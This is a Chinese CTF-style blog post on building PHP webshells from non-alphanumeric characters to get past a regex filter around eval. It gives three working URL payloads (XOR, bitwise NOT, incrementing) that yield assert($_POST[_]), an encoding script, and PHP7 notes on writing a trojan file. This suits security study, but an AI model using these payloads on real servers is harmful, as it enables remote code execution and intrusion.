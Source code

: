 # PHP 中不包含字母和数字的 webshell



## 0x00 前言

又是好多天没写博客了，就想着再来随便水点什么吧

这种神奇的题曾经在 [CNSS Recruit 2019 Web Boss题](/2019/10/24/cnss-recruit-2019-web-boss/) 中出现过，最近做题又遇到了一次结果还是不会（因为又多过滤了一些符号之前的方法就也不能用了），就把它写下来吧，具体方法有三种，可以灵活使用，这里使用的是 PHP5.6 环境，具体原因会在下文说明，源码如下

```php
<?php
highlight_file(__FILE__);
if(!preg_match('/[a-z0-9]/is',$_GET['code'])) {
    eval($_GET['code']);
} else {
    die("nonono!");
}
```



## 0x01 前置知识（PHP 中的一些特性）

1. 可变函数，即可以用字符串变量充当函数名（eval 等语言结构不可使用）
   > 如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数，并且尝试执行它
   
   ```php
   <?php
   $a = 'strrev';
   $b = 'Hello';
   echo $a($b); // olleH
   ```
   
2. 可变变量，即在一个字符串变量前再加一个 `$` 可将该变量的值当作变量名

   > 一个可变变量可以获取一个普通变量的值作为这个可变变量的变量名

   ```php
   <?php
   $a = 'hello';
   $$a = 'world';
   echo $hello; // world
   $hello = 'dlrow';
   echo $$a; // dlrow
   ```




## 0x02 思路分析及三种方法

我们需要将各种符号进行变换组合，最终构造出各种字母数字，以执行所需命令

大致思路为构造 `assert($_POST[_])` 获取 shell

这里说一下需要使用 PHP5 的原因

> PHP5 中 `assert` 为函数，可以通过 `$a='assert';$a(...)` 的方式执行，这也是之后选用 `assert` 而不选用 `eval` 的原因
>
> PHP7 中 `assert` 变为了和 `eval` 一样的语言结构，即不能再用以上方法执行

在这篇文章结尾我也会简要分析一下在 PHP7 中怎么操作




### 法一：异或

> 异或即 PHP 中的运算符 `^`
> 
> `$a ^ $b`   Xor（按位异或）  将把 `$a` 和 `$b` 中一个为 1 另一个为 0 的位设为 1 
>
> 两个字符串异或后仍是字符串

这应该是这三种方法中最常用的一个（因为 Google 查到最多的是这种方法），具体选用哪些字符进行异或直接查 ASCII 码表就好（构造小写字母采用反引号 `` ` `` ，构造大写字母采用 `@` 比较方便）

```url
/?code=$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');$__='_'.('%10'^'@').('%0F'^'@').('%13'^'@').('%14'^'@');$___=$$__;$_($___[_]);
```

整理一下即为以下代码

```php
<?php
$_ = 'assert';
$__ = '_POST';
$___ = $$__;
$_($___[_]); // assert($_POST[_])
```



### 法二：取反

>取反即 PHP 中的运算符 `~`
>
>`~$a`   Not（按位取反）   将 `$a` 中为 0 的位设为 1，反之亦然
>
>字符串取反后仍是字符串

在异或运算符 `^` 被过滤时可以考虑这种方法，也是招新 BOSS 题中用到的方法，依然查 ASCII 码表

```url
/?code=$_=~'%9E%8C%8C%9A%8D%8B';$__=~'%AF%B0%ACAB';$___=$$__;$_($___[_]);
```

整理一下即与 0x02 中代码相同

另附一个将字符串转换成上述取反格式的脚本

```python
#!/bin/python3
s = 'assert'
print("~'", end='')
for i in s:
    i1 = hex(15 - int(hex(ord(i))[-2], 16))[-1].upper()
    i2 = hex(15 - int(hex(ord(i))[-1], 16))[-1].upper()
    print('%' + i1 + i2, end='')
print("'") # ~'%9E%8C%8C%9A%8D%8B'
```



### 法三：字符递增

那么如果异或运算符和取反运算符都被过滤了该怎么办呢，这里就要用到递增运算符 `++`

然而怎么获得用来递增的第一个字母，这用到了 PHP 的一个特性

> 在试图将数组转换成字符串时会获得字符串 'Array'

可以用以下代码演示这个特性

```php
<?php
$a = [];
$b = "$a";
echo $b; // Array
```

又由于 PHP 中函数名对大小写不敏感，我们可以构造 `ASSERT($_POST[_])`

```url
/?code=$_=[];$__="$_";$___=$__['@'=='!'];$_=$___;$___%2B%2B;$___%2B%2B;$___%2B%2B;$___%2B%2B;$____=$___;$___%2B%2B;$___%2B%2B;$___%2B%2B;$___%2B%2B;$___%2B%2B;$___%2B%2B;$___%2B%2B;$___%2B%2B;$___%2B%2B;$___%2B%2B;$_____=$___;$___%2B%2B;$______=$___;$___%2B%2B;$___%2B%2B;$_______=$___;$___%2B%2B;$________=$___;$___%2B%2B;$_________=$___;$_=$_.$________.$________.$____.$_______.$_________; $__='_'.$______.$_____.$________.$_________; $___=$$__;$_($___[_]);
```

整理即为以下代码

```php
<?php
$_ = [];
$__ = "$_"; // Array
$___ = $__['@' == '#']; // A
$_ = $___; // A
$___++;$___++;$___++;$___++;
$____ = $___; // E
$___++;$___++;$___++;$___++;$___++;$___++;$___++;$___++;$___++;$___++;
$_____ = $___; // O
$___++;
$______ = $___; // P
$___++;$___++;
$_______ = $___; // R
$___++;
$________ = $___; // S
$___++;
$_________ = $___; // T
$_ = $_.$________.$________.$____.$_______.$_________; // ASSERT
$__ = '_'.$______.$_____.$________.$_________; //POST
$___ = $$__;
$_($___[_]); // assert($_POST[_])
```



## 0x03 PHP7 中可用的方法

1. 如果 web 用户有读写权限，可以直接用 `file_put_content` 函数将木马写入文件

2. 如果无读写权限，可以用上述各种方法构造出自己需要的函数再执行，法三经过一定操作理论上可以构造出所有字母（大写和小写）和数字，小写字母和数字可以用以下方法再结合递增递减即可

   ```php
   <?php
   $_ = [];
   $__ = "$_"; // Array
   $___ = $__['@' == '#']; // A
   $_ = $___; // A
   $___++;$___++;$___++;
   $____ = $___; // D
   $___++;$___++;$___++;$___++;$___++;$___++;$___++;$___++;$___++;$___++;$___++;
   $_____ = $___; // O
   $___++;$___++;$___++;
   $______ = $___; // R
   $_______ = $_____.$______.$____; // ORD
   $________ = $_______($____) - $_______($_); // 3 （数字在这）
   $____ = $__[$________]; // a （小写字母在这）
   ```




## 0x04 总结

咕了好久才想起来有篇博客没写完，结果这两天又遇到一次依然不会（就是用到了法三），跟在🐙爷爷后面~~做~~看完题才想起来，卧槽这个我看过（但是还没写

这个故事告诉我们，鸽子迟早是要被炖了的（逃

